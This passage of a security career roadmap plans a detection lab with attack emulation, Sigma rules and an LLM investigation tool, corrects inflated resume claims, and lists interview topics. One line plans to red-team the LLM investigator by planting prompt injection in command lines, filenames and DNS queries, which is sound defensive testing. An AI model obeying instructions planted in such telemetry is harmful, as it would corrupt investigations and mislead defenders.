**Phase 2: harpocrates-lab repo with ThreatChain (Mar to May 2027)**

Turn ThreatChain from an LLM wrapper into an investigation system over real telemetry. This combines the Mini-EDR and ThreatChain items from the ChatGPT roadmap into one repo: the separate harpocrates-lab repo, not the product.

- Lab: a Windows VM with Sysmon, a Linux VM with auditd, and Zeek. Store events in DuckDB or Elastic. No Kafka unless you hit a real throughput need.
- Attacks: Atomic Red Team runs, labeled by ATT&CK technique, inside the lab only.
- Detection: 15 to 25 Sigma rules plus one ML detector reused from your CIC-IDS2017 work.
- Investigation: ThreatChain maps correlated alerts to ATT&CK, cites the log events, and proposes actions behind human approval.
- Red team: prompt injection planted in command lines, filenames, and DNS queries, with before and after numbers.
- Link to Guard: Guard's audit log becomes one telemetry source, so a leaked-secret event can trigger an investigation.

**Phase 3: Cloud detection (summer 2027, optional)**

Use a separate AWS sandbox account with budget alerts and Stratus Red Team or CloudGoat for attack emulation. This is how you legitimately earn the IAM and S3 experience your resume currently lists.

**REFLEX (parallel, research only)**

Cost isn't the blocker it seems. A 4B-parameter model quantized to 4 bits needs roughly 3 to 4 GB of memory for its weights. That runs on a consumer GPU, an Apple Silicon Mac, or a rented cloud GPU billed by the hour. You don't need a DGX Spark. Use the lab repo as REFLEX's cyber range, so experiments run on real telemetry instead of synthetic transcripts.

**ServiceNow ticket project (do this now)**

Before it launches, record a baseline: tickets per release, duplicate rate, and Service Desk time per ticket. After launch, track duplicates caught, false merges, and human overrides. Real production metrics from your job will outweigh any portfolio number. If ITS handles security findings, ask whether the same deduplication could apply to them.

## Resume and repo alignment

Fix these before applying widely. Security interviewers verify claims, and a mismatch between resume and repo costs more than a modest bullet ever gains.

| Resume claim | What's actually true | Fix |
| --- | --- | --- |
| Harpocrates: Rust core, ONNX, MCP server "shipped" | Built, but not on the main branch | Merge to main in M0. Until then, a recruiter clicking your GitHub sees a Python-only project. |
| Harpocrates: "adopted by 3 developer teams" | Unverified here | Be ready to name the teams and how they used it. If it was informal, say "used by." |
| ThreatChain: end-to-end Splunk investigation, approval-gated LangGraph, 189-test suite | You describe it as a simple LLM wrapper that maps attacks to ATT&CK | Rewrite the bullet to match the repo today, or do the lab work first. The repo also needs to be findable under the name on your resume. |
| ThreatChain: 1.00 mean reciprocal rank | A perfect score | Expect scrutiny. A perfect MRR usually means the test set is too small or too easy. Report the set size, or add harder queries and report the real number. |
| Skills: AWS S3 and IAM | No S3 experience; used IAM but never configured it | Remove both until Phase 3, or reword to "IAM (consumer)." Keep Lambda, EKS, and Secrets Manager, which are real. |

What's already strong and should stay: production EKS and Lambda work, 82 stored procedures with zero defects, leading a 3-person team, Security+, and the VA anomaly-detection work, which is directly relevant to detection engineering.

## Interview readiness and open questions

By M3 you should be able to explain each of these without notes:

- Why Shannon entropy alone produces false positives, and what the ML stage adds
- What complete mediation means, and why Guard needs the egress gate
- How an HTTP request reaches the LLM API: DNS, TCP, TLS handshake, and where Guard sits
- Why fail closed, and what it costs in usability
- Why keyed hashes instead of plain hashes in logs
- How prompt injection works, and why tool output is untrusted input
- What your evasion suite found that you haven't fixed yet, and how your results compare with RedactProxy and claude-code-redact

Keep 20 to 30% of your weekly time on coding-interview practice and fundamentals: Windows processes, Linux permissions, TCP/IP, DNS, TLS, and authentication (OAuth, SAML, Kerberos). Project depth gets you the interview; fundamentals pass it.

**Open questions**

- [ ] Confirm how Codex can deny built-in reads per path (hooks or sandbox rules), and whether Codex's ChatGPT sign-in honors a custom base URL
- [ ] Choose the proxy's request-parsing strategy for each provider's API format (Anthropic Messages, OpenAI Responses, OpenAI Chat Completions)
- [ ] Decide whether harpo-read is Python (faster to build) or Rust (one language with the core)
- [ ] Find ThreatChain's current repo name and decide whether to rename it to match the resume
- [ ] Check what baseline ticket data the ServiceNow project can capture before launch
